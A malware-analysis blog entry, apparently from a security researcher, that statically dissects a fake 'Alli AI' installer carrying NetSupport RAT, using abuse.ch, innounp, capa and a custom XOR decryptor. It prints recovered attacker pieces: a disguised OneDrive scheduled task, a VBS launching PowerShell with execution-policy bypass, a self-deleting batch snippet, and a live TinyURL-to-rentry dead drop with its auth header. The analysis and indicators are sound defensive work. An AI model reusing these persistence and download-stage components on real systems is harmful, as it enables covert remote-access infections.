

# Day 19 — A fake AI installer with nothing malicious inside

On Day 18 I counted 640 lookalike domains of AI brands and didn't find a single malware download on them. That left the obvious question. If malware with an AI brand as bait doesn't come from typo domains, where does it come from, and what does it actually do?

So this time I started from the other end. Confirmed malware first, then work backwards to where it came from, then take one sample apart on FLARE-VM.

One rule for myself. The sample never runs. Everything here is static, reading files and code, so FLARE can't get infected even though the network is isolated anyway.

## Finding samples with an AI lure

abuse.ch runs two free databases that researchers feed. MalwareBazaar holds samples, URLhaus holds the URLs they were spread from. Both APIs need a free Auth-Key since 2025. I created one on auth.abuse.ch and stored it on Kali without it ending up in my shell history. Kali uses zsh, where `read -p` means something else, so the bash version failed with `read: -p: no coprocess`.

```bash
read -rs "K?Auth-Key: "; echo; print -r -- "$K" > ~/.abusech_key; chmod 600 ~/.abusech_key; unset K
wc -c ~/.abusech_key
# 49 /home/.../.abusech_key
```

Then I asked MalwareBazaar per tag for the last 1000 samples, metadata only.

```bash
cat > mb_tags.sh <<'EOF'
#!/bin/bash
KEY=$(cat ~/.abusech_key)
for tag in "$@"; do
  curl -s --max-time 60 -X POST https://mb-api.abuse.ch/api/v1/ \
       -H "Auth-Key: $KEY" -d "query=get_taginfo&tag=$tag&limit=1000" > "raw/mb_$tag.json"
  python3 -I -c "
import json
r=json.load(open('raw/mb_$tag.json'))
d=r.get('data') or []
print(f\"{'$tag':<12} status={r.get('query_status'):<12} samples={len(d)}\")"
  sleep 2
done
EOF
chmod +x mb_tags.sh
./mb_tags.sh chatgpt openai gpt deepseek claude anthropic grok perplexity gemini copilot mistral
./mb_tags.sh ChatGPT DeepSeek OpenAI Claude Grok AI
```

```
chatgpt      status=ok           samples=1
openai       status=no_results   samples=0
gpt          status=ok           samples=16
deepseek     status=ok           samples=12
claude       status=no_results   samples=0
...
AI           status=ok           samples=6
```

After removing duplicates that was 36 unique samples. Researchers rarely tag samples with an AI brand, so this is a small and probably incomplete set. Grouped by date they fall into three waves.

- **2023**, fake ChatGPT4, Bard and Google AI installers as `.msi` and `.rar`, some tagged `pw-888` or `pw-999`. Password-protected archives, with the password in the ad, so a scanner can't look inside on the way in.
- **February 2025**, right after the DeepSeek hype. `DeepSeek.Setup.1.0.0.exe`, a `deepseek.apk`, and nine PythonStealer scripts tagged `github`.
- **2025**, generic "AI tools". One of them `Alli_Ai_app_stable_vers_107_2_setup_proVer.exe` with signature NetSupport, the same RAT as in the Lucky Turkey exercise.

## Where they came from

MalwareBazaar said `via=None` for all of them. URLhaus can tell per hash which URLs served a file. My first attempt looked frozen, because Python buffers output when it goes through `tee` and each request could wait 60 seconds. A single test request answered in under a second, so I rewrote it as a script with `flush=True` and a shorter timeout.

```python
for h,name in sorted(hashes.items(),key=lambda x:str(x[1])):
    r=post('https://urlhaus-api.abuse.ch/v1/payload/',{'sha256_hash':h})
    urls=r.get('urls') or []
    hosts=sorted({urllib.parse.urlsplit(u['url']).hostname for u in urls})
    print(f"{h[:16]}  {str(name)[:40]:<40} urls={len(urls):<3} {' '.join(hosts)[:120]}",flush=True)
```

```
39a5d10c83bcf30e  Alli_Ai_app_stable_vers_107_2_setup_proV urls=3   hdgreen.org
0bfa57b1afc0367a  AI Verification Tool.msi                 urls=0
...                                                         urls=0
```

Only one of 36 had a known download URL, and it wasn't a lookalike of any AI brand. Three files on the same site, all offline since May 2025.

```
2025-05-14 offline hxxps://hdgreen.org/Gamma_app_stable_vers_107_2_setup_proVer%20(8).exe
2025-05-14 offline hxxps://hdgreen.org/Soft_Mine_app_stable_vers_113_2_setup_proVer.exe
2025-05-13 offline hxxps://hdgreen.org/Alli_Ai_app_stable_vers_107_2_setup_proVer.exe
```

The same name template with a different product in front each time. Alli AI is an SEO tool, Gamma makes presentations. The `(8)` in one name means someone downloaded it eight times before uploading it.

That fits Day 18. In this data the AI-lure malware doesn't come from typo domains. With 35 of 36 origins unknown that is a small observation, not proof.

## Picking the sample

I picked the NetSupport installer. I knew the RAT's network side from Lucky Turkey and wanted to see the machine side. The sandbox verdicts on MalwareBazaar were split.

```
ANY.RUN                {"verdict": "Malicious activity", "tags": ["inno", "installer", "delphi"]}
YOROI_YOMI             {"score": "1.00", "detection": "PcClient"}
vxCube                 {"verdict": "clean2"}
Triage                 {"score": "7", "tags": ["discovery"]}
ReversingLabs          {"status": "SUSPICIOUS"}
FileScan-IO            {"verdict": "MALICIOUS"}
```

20 MB, no code signing according to MalwareBazaar, first seen 12 May 2025.

## Getting it onto FLARE without running it

MalwareBazaar hands out samples as a zip with password `infected`, so the `.exe` never lands unpacked on Kali.

```bash
H=39a5d10c83bcf30e0d187be60db8792d589d3e8ca4bda2754660914032be744b
curl -s --max-time 120 -X POST https://mb-api.abuse.ch/api/v1/ -H "Auth-Key: $(cat ~/.abusech_key)" \
     -d "query=get_file&sha256_hash=$H" -o samples/netsupport_alli-ai.zip
file samples/netsupport_alli-ai.zip
7z l -pinfected samples/netsupport_alli-ai.zip | tail -5
```

```
samples/netsupport_alli-ai.zip: Zip archive data, at least v5.1 to extract, compression method=AES Encrypted
2026-11-15 15:39:02 .....     20451849     20377282  39a5d10c...744b.exe
```

Snapshot of FLARE first, then a temporary web server on Kali bound to the lab address only, on a port INetSim doesn't use.

```bash
cd ~/research/ai-lure-malware/samples
python3 -m http.server 8888 --bind 10.10.10.1
```

On FLARE, download, compare the hash, unpack with 7-Zip and give it an extension that does nothing on a double click. The FLARE clock was still on Pacific time, so I set it to Dutch time first.

```powershell
Set-TimeZone -Id "W. Europe Standard Time"
Invoke-WebRequest http://10.10.10.1:8888/netsupport_alli-ai.zip -OutFile C:\samples\netsupport_alli-ai.zip -UseBasicParsing
Get-FileHash C:\samples\netsupport_alli-ai.zip -Algorithm SHA256
& "C:\Program Files\7-Zip\7z.exe" x -pinfected -oC:\samples C:\samples\netsupport_alli-ai.zip
Rename-Item C:\samples\39a5d10c83bcf30e0d187be60db8792d589d3e8ca4bda2754660914032be744b.exe alli-ai_setup.exe.malware
Get-FileHash C:\samples\alli-ai_setup.exe.malware -Algorithm SHA256
# 39A5D10C83BCF30E0D187BE60DB8792D589D3E8CA4BDA2754660914032BE744B
```

## What kind of file

```powershell
& "C:\Tools\die\diec.exe" C:\samples\alli-ai_setup.exe.malware
```

```
PE32
    Linker: Turbo Linker(2.25*,Delphi)[GUI32,signed]
    Compiler: Embarcadero Delphi(2009-2010)[Enterprise]
    Installer: Inno Setup Module(5.5.6)[unicode]
```

Inno Setup is a legitimate installer builder written in Delphi, so the Delphi part says nothing about the malware. The `signed` was odd, since MalwareBazaar said no code signing.

```powershell
Get-AuthenticodeSignature C:\samples\alli-ai_setup.exe.malware | Format-List Status, StatusMessage, SignerCertificate
```

```
Status            : HashMismatch
SignerCertificate : [Subject]
                      E=admin@icecreamapps.com, CN=ICECREAM APPS LTD, O=ICECREAM APPS LTD,
                    L=Limassol, S=Limassol District, C=CY
                    [Issuer]
                      CN=GlobalSign GCC R45 CodeSigning CA 2020, O=GlobalSign nv-sa, C=BE
                    [Not Before]  3/10/2023 2:04:37 PM
                    [Not After]   3/10/2026 2:04:37 PM
```

A real signature of Icecream Apps, a legitimate software company whose installers are built with Inno Setup, but the file was changed after signing. Windows Explorer still shows the company name in the properties. That's T1036.001, Invalid Code Signature, and Icecream Apps is a victim here, not the author.

## Unpacking the installer

`innounp` reads Inno Setup installers and also extracts the installer's own script.

```powershell
& "C:\Tools\innounp\innounp.exe" -v -m C:\samples\alli-ai_setup.exe.malware
& "C:\Tools\innounp\innounp.exe" -x -m -y -dC:\samples\alli_unpacked C:\samples\alli-ai_setup.exe.malware
```

```
    237568  2016.04.17 19:16  {tmp}\idp.dll
    847360  2024.05.14 18:00  {tmp}\idp.exe
  19817808  2025.01.30 15:18  {tmp}\icecream.exe
    819707  ...               embedded\CompiledCode.bin
      3077  ...               install_script.iss
```

No NetSupport files at all. `idp.dll` is the Inno Download Plugin, which lets an installer download files during installation. And 820 KB of compiled script, where a normal installer has a few KB.

The script itself.

```
[Setup]
AppName=Apps
CreateAppDir=no
Uninstallable=false
PrivilegesRequired=lowest

[Files]
Source: "{tmp}\idp.dll"; DestDir: "{tmp}"; Flags: deleteafterinstall dontcopy
Source: "{tmp}\idp.exe"; DestDir: "{tmp}"; Flags: deleteafterinstall dontcopy
Source: "{tmp}\icecream.exe"; DestDir: "{tmp}"; Flags: deleteafterinstall dontcopy

[CustomMessages]
IDP_FormCaption=Downloading additional files
...
```

A meaningless name, nothing installed, no uninstall entry, no admin rights so no UAC prompt, everything to the temp folder and deleted afterwards. `dontcopy` means only the code decides when a file comes out. There is no `[Run]` section, so everything that starts is in the compiled code.

The three files in `{tmp}`.

```powershell
Get-ChildItem "C:\samples\alli_unpacked\{tmp}" | ForEach-Object {
  $s = Get-AuthenticodeSignature $_.FullName
  [pscustomobject]@{ Name=$_.Name; SHA256=(Get-FileHash $_.FullName).Hash; Sign=$s.Status; Signer=$s.SignerCertificate.Subject -replace ',.*$','' }
} | Format-List
```

| File | Signature | SHA256 |
| :-- | :-- | :-- |
| `icecream.exe` | Valid, Icecream Apps | `2EAB947B…AAE9E294` |
| `idp.dll` | not signed | `54E7E0AD…9AD983ED` |
| `idp.exe` | not signed | `4B7FC781…AC3B1DED` |

`icecream.exe` is the real Icecream installer. My guess was that it's the decoy the user gets to see.

## Strings, and a lot of noise

FLARE found the Cygwin `strings` first, which doesn't know Sysinternals flags, so the first run only printed usage. With the GNU flags it worked, and the output was hundreds of lines like this.

```
Overpowered additives jackass guffaw Disputes attributively Camino drains sprinkled Expect USDA
duplication Buns patio CPA warrior escalating lanthanide towering reeled preceded sequentiality
```

Random English words with marketing phrases mixed in ("Innovative Solution", "Resourceful Problem-Solver"). Padding, which lowers the entropy of the file and pushes machine-learning scanners towards benign. My first filter was case-insensitive, so words like "execution" matched `Exec` and the padding came through. It took me several rounds before I filtered on dots and braces only and wrote the hits to a file.

```powershell
$S = "C:\Tools\cygwin\bin\strings.exe"
$code = "C:\samples\alli_unpacked\embedded\CompiledCode.bin"
$pat = 'https?://|www\.|\.exe\b|\.zip\b|\.ini\b|\.dll\b|\.bat\b|\.ps1\b|\.vbs\b|cmd\.exe|powershell|\{tmp\}|\{app\}|\{userappdata\}|\{localappdata\}|\{userstartup\}|CurrentVersion\\Run|MSXML|WinHttp|ADODB'
$a = & $S -a -n 5 $code      | Select-String -CaseSensitive -Pattern $pat
$u = & $S -a -n 5 -e l $code | Select-String -CaseSensitive -Pattern $pat
```

```
ASCII treffers:   32
UNICODE treffers: 0
dll:files:idp.dll  (14x)
MSXMLBUTTONONCLICK
MSXML2.ServerXMLHTTP
Please install MSXML first.
http://jrsoftware.github.io/issrc/ISHelper/isxfunc.xml
MSXML2.DOMDocument
http://localhost/
.exe"
icecream.exe
{tmp}\icecream.exe
{tmp}\WizClassicSmallImage.bmp
http://127.0.0.1/innosetup/index.htm
idp.exe
{tmp}\idp.exe
```

At first I read `MSXML2.ServerXMLHTTP` as the way it fetches its config. Then the rest showed up next to it, a button handler, "Please install MSXML first." and the jrsoftware link. That looks like sample code that ships with Inno Setup, copied in as more harmless-looking filler. No external URL anywhere.

I tried the decompiler that ships on FLARE (`PSUI.exe` in `C:\Tools\Inno Setup Decompiler`). It closed by itself every time.

## idp.exe

Since the script seemed to hand off to `idp.exe`, I looked at that next. First I gave it the same harmless extension.

```powershell
Copy-Item -LiteralPath "C:\samples\alli_unpacked\{tmp}\idp.exe" C:\samples\idp.exe.malware
Remove-Item -LiteralPath "C:\samples\alli_unpacked\{tmp}\idp.exe"
& "C:\Tools\die\diec.exe" C:\samples\idp.exe.malware
& C:\Tools\capa\capa.exe C:\samples\idp.exe.malware > C:\samples\idp_capa.txt 2>&1
& C:\Tools\FLOSS\floss.exe -q --only stack tight decoded -- C:\samples\idp.exe.malware > C:\samples\idp_floss_dyn.txt 2>&1
```

DIE said Microsoft Visual C/C++ 19.36, not packed. capa took 14 minutes and looked alarming.

```
check for PEB BeingDebugged flag (3 matches)
reference anti-VM strings
encrypt data using AES / RC4, hash data using SHA1 / SHA256 / CRC32
encode data using XOR (50 matches)
interact with driver via IOCTL (6 matches)
parse PE header, resolve function by parsing PE exports (35 matches)
create directory, delete file, move file, set file attributes ...
```

FLOSS mostly gave junk, plus `7zXZ` and `LZMA`. Then the version info.

```powershell
(Get-Item C:\samples\idp.exe.malware).VersionInfo | Format-List CompanyName, ProductName, FileDescription, OriginalFilename, FileVersion
```

```
CompanyName      : Igor Pavlov
ProductName      : 7-Zip
FileDescription  : 7-Zip Standalone Console
OriginalFilename : 7za.exe
FileVersion      : 24.05
```

I searched it for embedded file headers too. One `MZ` at offset 0, and 7z, XZ, CAB and ZIP signatures in the data section, which is 7-Zip's own format table. To be sure I downloaded the official 7-Zip 24.05 extra package on Kali. 7-zip.org returned a 404 page for the old version, the release on Igor Pavlov's GitHub worked.

```bash
curl -sL -o 7z2405-extra.7z https://github.com/ip7z/7zip/releases/download/24.05/7z2405-extra.7z
7z x -y -oextra 7z2405-extra.7z >/dev/null && sha256sum extra/7za.exe extra/x64/7za.exe
```

```
4b7fc7818f3168945dbedadcfd7aaf470b88543ef6b685619ad1c942ac3b1ded  extra/7za.exe
```

Identical. `idp.exe` is the unmodified official 32-bit `7za.exe`, renamed. Everything capa flagged is what an archiver does. It opens VM disk images (hence the VM strings) and `.exe` files as archives, and it uses AES and SHA256 for encrypted archives. capa describes what code can do, not what it's for.

So the installer carries a download plugin, 7-Zip and a real installer, and nothing malicious. The payload has to be downloaded and unpacked, which means the URL and password are hidden in the script.

## Reading the script after all

IFPSTools.NET by Wack0 is written for exactly this, malicious Inno Setup bytecode. I downloaded release v2.0.5 on Kali and moved it to FLARE the same way as the sample.

```powershell
& C:\Tools\ifpstools\ifpsdasm.exe C:\samples\ifps\CompiledCode.bin
# Disassembled script to C:\samples\ifps\CompiledCode.txt
```

11,433 lines, 309 functions. Lines 102 to 960 are the standard Inno Download Plugin include. Around 1600 to 9550 sit ten `CREATEOLEOBJECT` calls, the copied sample code. The real work is at the bottom.

```
  10318  call IDPDOWNLOADAFTER
  10364  call EXEC
  10704  call EXTRACTTEMPORARYFILE
  10786  call EXEC
  10995  call DELETEFILE
  11087  call SAVESTRINGTOFILE
  11161  call EXEC
  11258  call EXEC
```

The entry points are `INITIALIZEWIZARD` and `CURSTEPCHANGED`, which Inno calls itself, between filler functions with names like `RENDERDASHBOARD` and short meaningless ones like `YILI`, `WEXOW` and `JABISO`. Strings in that part included hex blobs.

```
assign Var2, String_3("2DC599024EA9D6731E7F9D7EFB9F5C0E6102773E39A68A402B07870B071A697121A813D4932CEB")
assign Var13, String_3("748C976BE4A0ECE9990530C201B33812218C946B9D22BEF36B4291231E4911131C2CBEF85EB4BDBBB0229F8F91CB58")
assign Var19, String_3("/c %s \"%s\"")
assign Var18, String_3("cmd")
```

Every short function does the same thing.

```
.function(export) UnicodeString_2 YILI()
        assign Var2, String_3("2DC599024EA9D6731E7F9D7EFB9F5C0E6102773E39A68A402B07870B071A697121A813D4932CEB")
        call JIQA
        assign Var2, String_3("1AFDDB367FEAE2462C46A51AC3AC6E4B5443415D7B93C8796A32B73E3F235B1719ED2AECA51DD24FF6AF3A7E9CEE175C39DF46C3AF1E3C5332467B0E97C8704E")
        call TUTE
        ret
```

`JIQA` turns a hex string into bytes, two characters at a time with `'$' + Copy(...)` and `StrToInt`. `TUTE` does the same with the second string and XORs each byte with `key[i mod keylength]` (`mod Var10, Var3` and `xor Var7, Var8` in the listing). A repeating-key XOR, weak but enough to keep `strings`, FLOSS and scanners blind.

I rebuilt that in Python and ran it over the disassembly. Hex string before `call JIQA` is the key, hex string before `call TUTE` gets decrypted.

```python
import re
lines = open(r"C:\samples\ifps\CompiledCode.txt", encoding="utf-8", errors="replace").read().splitlines()
hexstr = re.compile(r'String_3\("([0-9A-F]{8,})"\)')
func, last, key = "?", None, None
seen = []
for n, l in enumerate(lines, 1):
    if l.startswith(".function"):
        m = re.search(r'(\w+)\(', l.split(")",1)[1] if ")" in l else l)
        func = m.group(1) if m else l[:40]
    m = hexstr.search(l)
    if m:
        last = m.group(1)
    s = l.strip()
    if s == "call JIQA" and last:
        key = bytes.fromhex(last)
    elif s == "call TUTE" and last and key:
        c = bytes.fromhex(last)
        p = bytes(b ^ key[i % len(key)] for i, b in enumerate(c))
        seen.append((n, func, p.decode("latin-1")))
for n, f, t in seen:
    print(f"{n:6} {f:<22} {t!r}")
```

26 strings came out.

```
  2997 GIZIJU                 'WbemScripting.SWbemLocator'
  3065 MOPUX                  'root\\CIMV2'
  3133 RUSIME                 'SEleCt * FrOm wIN32_CoMPuTeRsySteM'
  3184 RUJOK                  'seLEcT * fRoM WIn32_pRoCEsSOR'
  3235 KOCA                   'SeleCt * From wiN32_PrOCeSs WheRe nAme='
  3734 XAPA                   'app_stable_vers_'
  3802 TISA                   'pro_ver_build'
  3883 DUBIGA                 'https://tinyurl.com/yx5y2yxh'
  3978 DUNU                   '/create /xml {tmp}\\lang /tn OneDriveSyncTaskMachineCore /f'
  4294 KIXOV                  'check_virtm'
  8955 WUMOGA                 'attrib +H +S'
  9487 YILI                   '78B41C45298d832E5A6cB5B9A505892f8E98619b368058dBFB880B2201E71B0e'
  9820 WEXOW                  '{usercf}'
  9854 JABISO                 'winhttp.winhttprequest.5.1'
  9888 LUYOK                  '\\*.ps1'
  9922 VIJO                   '{tmp}\\lang'
  9973 KOTAH                  '{tmp}\\logs'
 10007 CUXEP                  'x "%s" -o"%s" -y -p%s'
 10041 FIVALI                 'rentry-auth'
 10075 VAWU                   '\\pskhosts.ps1'
 10515 HESOXI                 'schtasks'
 10577 XOTA                   'yyyy-MM-dd"T"hh:mm:ss'
 10662 HAYEDI                 '{usercf}\\.vbs'
 11053 CURSTEPCHANGED         '<?xml version="1.0" encoding="UTF-16"?> <Task ...'
 11067 CURSTEPCHANGED         'Set objShell = CreateObject("WScript.Shell") ...'
 11189 CURSTEPCHANGED         ":ol\ndel '{ds}'\nif exist '{ds}' goto ol\ndel %0"
```

The scheduled task, shortened.

```xml
<Description>Keeps your OneDrive client is always up-to-date with the latest system optimizations and security updates. ...</Description>
<Interval>PT5M</Interval>
<RunLevel>LeastPrivilege</RunLevel>
<Hidden>true</Hidden>
<Command>wscript.exe</Command>
<Arguments>"%localappdata%\programs\common\.vbs"</Arguments>
```

The VBS it writes.

```vbs
Set objShell = CreateObject("WScript.Shell")
objShell.Run "powershell.exe -ExecutionPolicy Bypass -NoProfile -Command Set-ExecutionPolicy Bypass -Scope Process -Force", 0, True
objShell.Run "powershell.exe -ExecutionPolicy Bypass -NoProfile -File ""%localappdata%\programs\common\pskhosts.ps1""", 0, False
```

## Two guesses checked in the code

I wanted to know what `app_stable_vers_` was for, and what `561f6dd174a19eb3db770579` was, a value I'd seen next to the HTTP calls.

```
call EXTRACTFILENAME
call XAPA                  ; 'app_stable_vers_'
call POS
eq Var2, Var3, S32(0)
...
call TISA                  ; 'pro_ver_build'
call POS
eq Var4, Var5, S32(0)
and Var3, Var4
or Var2, Var3
jf loc_1aa9
call JOVAV
```

The script takes its own file name and checks whether it contains `app_stable_vers_` or `pro_ver_build`, and branches on that. The real name contains the first. A sandbox that renames samples to their hash, like MalwareBazaar does, ends up on the other branch. I didn't read what that branch does, so I can only say it's a strong hint at a sandbox guardrail (T1480).

```
call FIVALI                                  ; 'rentry-auth'
assign Var9[0], Var10
assign Var9[1], String_3("561f6dd174a19eb3db770579")
assign Var9, String_3("SetRequestHeader")
call IDISPATCHINVOKE
```

So the request goes out with the header `rentry-auth: 561f6dd174a19eb3db770579`.

## Is it still there

With the VPN on, I asked TinyURL where the link points without following it.

```bash
curl -s -o /dev/null -D - --max-time 20 https://tinyurl.com/yx5y2yxh | grep -iE '^(HTTP|location)'
```

```
HTTP/2 301
location: https://rentry.org/78b41c45298d832e5a6cb5b9a505892f8e98619b368058dbfb880b2201e71b0e/raw
```

Still active, a year and a half after the sample. And it corrected me. I had taken the long `YILI` string for the 7-Zip password, but it's the name of the rentry page. Rentry is a free paste service, `/raw` returns the bare text.

I fetched that text with the same header and the default User-Agent of `WinHttp.WinHttpRequest.5.1`, without following redirects.

```bash
curl -s --max-time 30 --max-filesize 1000000 \
  -A "Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)" \
  -H "rentry-auth: 561f6dd174a19eb3db770579" \
  -D stage2/rentry_headers.txt -o stage2/rentry_raw.txt \
  "https://rentry.org/78b41c45298d832e5a6cb5b9a505892f8e98619b368058dbfb880b2201e71b0e/raw"
```

```
HTTP/2 200
content-type: text/plain; charset=utf-8
content-length: 0
e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855  stage2/rentry_raw.txt
```

The page exists but is empty. A dead drop the operator cleared but kept. Put a download address back on it and every copy of the installer still around works again.

I reported the TinyURL through TinyURL's support form and the rentry page to Rentry through a DM on X, the contact channel listed on rentry.org/what.

## The chain as far as I can see it



The installer has no malicious file in it. A broken but convincing signature, a download plugin, the official 7-Zip, a real installer as decoy, and an XOR'd script tying it together. The actual payload only arrives during installation, encrypted, through a short link. That explains the split verdicts.

| Technique | ATT&CK |
| :-- | :-- |
| Invalid Icecream Apps signature | T1036.001 |
| WMI checks for VM and processes | T1497.001 |
| File name check before acting | T1480 |
| XOR'd strings, word salad padding | T1027 |
| Download through TinyURL and Rentry | T1105, T1102 |
| Scheduled task disguised as OneDrive | T1053.005, T1036.004 |
| Hidden and system attributes | T1564.001 |
| VBS and PowerShell with execution policy bypass | T1059.005, T1059.001 |
| Self-deleting batch file | T1070.004 |

## What I don't know

- The 7-Zip password and the real download address. They were in the rentry text, which is empty now.
- What `pskhosts.ps1` does, and the NetSupport configuration with its gateway address. Those are inside the archive I never got.
- What the guardrail branch does when the file name doesn't match.
- Where `{tmp}\logs` fits in. I assume it's the downloaded archive but didn't confirm it.

## Indicators

```
39a5d10c83bcf30e0d187be60db8792d589d3e8ca4bda2754660914032be744b  Alli_Ai_app_stable_vers_107_2_setup_proVer.exe
4b7fc7818f3168945dbedadcfd7aaf470b88543ef6b685619ad1c942ac3b1ded  idp.exe (official 7za.exe 24.05 x86)
54e7e0ad32a22b775131a6288f083ed3286a9a436941377fc20f85dd9ad983ed  idp.dll
2eab947bb499131e7ce74cb597dae53207a8fabc08dfb01866ced095aae9e294  icecream.exe (legitimate)
hxxps://hdgreen.org/*_app_stable_vers_*_setup_proVer.exe
hxxps://tinyurl.com/yx5y2yxh
hxxps://rentry.org/78b41c45298d832e5a6cb5b9a505892f8e98619b368058dbfb880b2201e71b0e/raw
rentry-auth: 561f6dd174a19eb3db770579
Scheduled task  OneDriveSyncTaskMachineCore
Files           %LOCALAPPDATA%\Programs\Common\.vbs, pskhosts.ps1 (hidden, system)
Signer          CN=ICECREAM APPS LTD, serial 6702A208E920E66C51A9E154 (HashMismatch)
```

## Evidence

The sample and unpacked files stayed on FLARE, which went back to its snapshot afterwards. The text output went to Kali and into an archive that is not in this repo.

```
312f54c8d747fbff4201198772bf8637de53aba1b06b38313d42d842805117e5  ai-lure-malware-2026-11-15.tgz
33edf438c3dd66d555b4a7efc46b87e60f87431783d2ce58d590e552b4c4575c  CompiledCode.txt (ifpsdasm output)
8672db9bd70ab014d4daf211d47a315d7f781a3dd9dd868f3dabec47ac425026  decrypted.txt
f271f90bebc387c78110439a32f62df32395ddf3ad42c5cd4998884446dbb79f  install_script.iss
```

Sources
- [MalwareBazaar sample 39a5d10c…](https://bazaar.abuse.ch/sample/39a5d10c83bcf30e0d187be60db8792d589d3e8ca4bda2754660914032be744b/)
- [IFPSTools.NET, Wack0](https://www.github.com/Wack0/IFPSTools.NET)
- [7-Zip releases, ip7z/7zip](https://github.com/ip7z/7zip/releases)
